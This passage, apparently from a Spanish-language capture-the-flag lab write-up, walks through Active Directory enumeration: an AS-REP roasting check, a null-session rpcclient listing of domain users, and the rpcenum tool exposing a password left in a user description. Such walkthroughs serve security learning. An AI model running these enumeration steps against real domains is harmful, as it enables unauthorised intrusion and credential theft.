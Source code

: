 ```console
[-] User simon doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User naoki doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Pero no detectamos ningún usuario que cumpla este requisito.

## Enumerating RPC -> Information Disclosure
Podemos utilizar `rpcclient` y nos damos cuenta de que también podemos enumerar información interna haciendo uso de una null session pero ahora a través del protocolo RPC.
```console
$ rpcclient -N -U "" 10.129.201.75                                                                             
rpcclient $> enumdomusers                                                                                              
user:[Administrator] rid:[0x1f4]                                                                                       
user:[Guest] rid:[0x1f5]                                                                                               
user:[krbtgt] rid:[0x1f6]                                                                                              
user:[DefaultAccount] rid:[0x1f7]                                                                                      
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
```

En estos casos, me gusta utilizar [rpcenum](https://github.com/s4vitar/rpcenum) una herramienta en bash hecha por s4vitar para extraer información del dominio utilizando `rpcclient`

Nos clonamos el repo.
```console
$ git clone https://github.com/s4vitar/rpcenum
Cloning into 'rpcenum'...
remote: Enumerating objects: 54, done.
remote: Counting objects: 100% (19/19), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 54 (delta 15), reused 14 (delta 14), pack-reused 35 (from 1)
Receiving objects: 100% (54/54), 577.54 KiB | 3.24 MiB/s, done.
Resolving deltas: 100% (15/15), done.
```

Con esta herramienta podemos listar los usuarios del dominio incluyendo sus descripciones "si tenemos permisos para ello"

```console
$ sudo ./rpcenum -e DUsersInfo -i 10.129.201.75

[*] Listing domain users with description...


  +                 +                                                           +
  | User            | Description                                               |
  +                 +                                                           +
  | Administrator   | Built-in account for administering the computer/domain    |
  | Guest           | Built-in account for guest access to the computer/domain  |
  | krbtgt          | Key Distribution Center Service Account                   |
  | DefaultAccount  | A user account managed by the system.                     |
  | marko           | Account created. Password set to Welcome123!              |
  +                 +                                                           +

```